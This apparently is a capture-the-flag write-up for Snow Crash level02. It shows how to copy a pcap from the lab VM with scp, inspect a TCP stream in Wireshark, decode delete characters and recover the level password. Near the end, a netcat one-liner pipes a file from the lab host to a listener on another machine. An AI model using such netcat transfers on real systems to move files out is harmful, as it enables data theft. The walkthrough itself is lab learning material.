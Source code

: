 # Level02
Surprise! Our home directory is not empty this time.

![image](https://github.com/user-attachments/assets/e90f08cc-e8c6-43d2-a211-426c455d7998)

![image](https://github.com/user-attachments/assets/134c1920-cd17-48c7-8b12-ca8bad5826ee)

So, what is a **pcap** file and how do we make sense of it? 

PCAP files are a common format for storing packet captures. A PCAP file includes an exact copy of every byte of every packet as seen on the network. [See](https://www.endace.com/learn/what-is-a-pcap-file)
There are various open-source tools we can use to read and write PCAP files including tcpdump, libPCAP, WinPCAP, NPCAP, Zeek, Snort, Suricata, Wireshark. **Wireshark** is among the recommended tools for this project and it is preinstalled on my machine so we'll go with that. (Edit: It was actually cloudshark that was recommended for this project but it is too late now and wireshark is more convenient)

I said my machine though, not the host machine. 

![image](https://github.com/user-attachments/assets/e46661ec-337c-4ad2-bfd4-95d0e2d0b172)

When using tools like john I was easily able to copy-paste text between machines but I need to actually transfer a file now. Did you know that there is a whole course for that on [HTB Academy](https://academy.hackthebox.com/course/preview/file-transfers)?
We probably won't need to go thorough all that though. We just need to learn to use the **SCP** command as suggested by the project's subject.pdf.

`man scp`:
```
scp — OpenSSH secure file copy

scp copies files between hosts on a network.

       scp uses the SFTP protocol  over  a  ssh(1)  connection  for  data
       transfer,  and  uses the same authentication and provides the same
       security as a login session.
```

**Syntax:**
`scp user@remotehost:/home/user/file_name `

`$ scp -P 4242 level02@192.168.56.101:~/level02.pcap .`:

![image](https://github.com/user-attachments/assets/acd01ffd-d4e1-4ebf-a4b6-d80da9526c97)

(See [below](#bug), if you are having issues with this command)

Now that I have the necessary file in my current directory I can run

`$ sudo wireshark level02.pcap`:

![image](https://github.com/user-attachments/assets/ba0cc406-d451-48ee-950a-3514e07a8308)

Going one by one I see the word Password on line 43(why not 42?) but am unable to decipher much else. Let's go to Analyze → [Follow](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html) → TCP Stream window.

This will display stream content in the same sequence as it appeared on the network. Traffic from the client to the server will be colored red, while traffic from the server to the client will be colored blue.

Non-printable characters are replaced by dots.

![image](https://github.com/user-attachments/assets/ba82eb31-4bb9-4ad1-bd51-b5ddd80abd1c)

Alright, this looks promising `Password: ft_wandr...NDRel.L0L` 

![image](https://github.com/user-attachments/assets/9b94a91d-1848-4f86-884e-2a3bbf49f302)

Uh...oh right, remember when I said non-printable characters are replaced by dots? Let's take a closer look at what all those dots are meant to be

![image](https://github.com/user-attachments/assets/95510868-d994-47d6-b034-c1c236b97600)

0D is the carriage return which shows the point client was done entering his password.
7F is the Delete character. Client must have made some mistakes while entering the password or maybe it was an attempt to confuse anyone else who might be listening in.

In any case `ft_wandr...NDRel.L0L` becomes `ft_waNDReL0L`

Let's try it

![image](https://github.com/user-attachments/assets/09bf0234-51a0-40c2-b9c3-691117436e01)

![image](https://github.com/user-attachments/assets/9a7f45ae-fc3e-482d-a443-242461a4211d)

Finally!

<h2 id="bug">Blue Screen of Death </h2>

If running scp causes your computer to crash like me, it might be because of the VM's network settings.

The snow-crash machine is using Host-Only Adapter as we discussed before.

![image](https://github.com/user-attachments/assets/b87a6ad3-b8cd-45dd-92a0-f9032396ce87)

However the Kali machine I am using was on NAT

![image](https://github.com/user-attachments/assets/ef7629e8-e591-490d-bcab-d3cbc0dfd8f5)

When I changed it to **Host-only Adapter** the issue was resolved.

Hopefully those who are on Mac are having easier time here and not dealing with weird VirtualBox bugs.

### Alternatively 

You can also use netcat to transfer files like so:

First, we start listening on port 4444. `nc -l -p 4444 > level02.pcap`

![image](https://github.com/user-attachments/assets/7edb672c-d09b-4c37-84e0-afb69061f4ff)

Then we send the file `level02@SnowCrash:~$  nc -w 3 92.168.56.102 4444 < ./level02.pcap`

![image](https://github.com/user-attachments/assets/d0d21ede-e645-422a-8b36-57e0eedfea24)

(if you don't know your ip you can just run `$ ifconfig`)

![image](https://github.com/user-attachments/assets/36567e8d-1783-4401-8352-facb571c13aa)


Now let's check our home directory.

![image](https://github.com/user-attachments/assets/b6d22e80-f4e2-4f12-a5a2-b3a5320ed581)

Ta-da!
